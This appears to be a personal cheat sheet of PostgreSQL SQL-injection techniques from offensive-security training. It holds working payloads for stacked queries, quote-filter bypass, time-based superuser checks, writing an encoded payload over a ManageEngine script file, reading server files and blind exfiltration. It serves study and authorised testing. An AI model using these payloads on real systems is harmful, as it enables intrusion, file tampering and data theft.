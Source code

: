# PostgreSQL

### Notes

- String manipulation functions: https://www.postgresql.org/docs/14/functions-string.html
- Postgres SQL-injection attacks allow an attacker to perform **stacked queries**. This means that we can use a query terminator character in our payload (;), and inject a completely new query into the original vulnerable query string. This makes exploitation much easier since neither the injection point nor the payload are limited by the nature of the vulnerable query.

### Checklist

- [x] Check if user is DBA: `SELECT current_setting('is_superuser'); //'on' or 'off'`

### Quoted String Bypass

**Piping**

You can select individual characters using their code points (numbers that represent characters) and concatenate them together using the double pipe (||) operator.

> Note: This does not work for all SQL statements. See below for further bypasses.

```
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
 ?column?
----------
 AWAE
(1 row)
```

**Dollar-quoted String Constants**

[Lexical Structure](https://www.postgresql.org/docs/14/sql-syntax-lexical.html) in PostgreSQL allows other methods to represent strings. One is support for dollar-quoted string constants. Two dollar characters ($$) can be used as a quote (') substitute by themselves, or a single one ($) can indicate the beginning of a "tag". The tag is optional, can contain zero or more characters, and is terminated with a matching dollar ($). If used, this tag is then required at the end of the string as well:

```
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;

COPY 1

Query returned successfully in 201 msec.
```

### Time-based Injection

Check if executing as DBA:
```
SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```

### Write to a File

```
COPY (select $$awae$$) to <file_name>
COPY (select $$awae$$) to $$C:\pwnd.txt$$
```
> Postgres COPY TO function does not support newline control characters in a single SELECT statement.
> Use a base64 encoded, then URL encoded string to reliably write file contents. If the URL query string will exceed the max URL length (2048 characters), try convert method to POST.

Example:

```
COPY (SELECT convert_from(decode($$B64_URL_ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) TO $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

1. We need to use base64 encoding to avoid any issues with restricted characters within the COPY TO function.
2. We also need to URL encode the payload so that nothing gets mangled by the web server itself.
3. Finally, we need to use the `convert_from` function to convert the output of the decode function to a human-readable format to be stored in the destination file.

### Read a File

```
DROP TABLE IF EXISTS awae;
CREATE temp table awae (content text);
COPY awae FROM $$c:\awae.txt$$;
SELECT content FROM awae;
DROP TABLE awae;
```

**Exfiltrating data (Blind)**

```
create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+
```
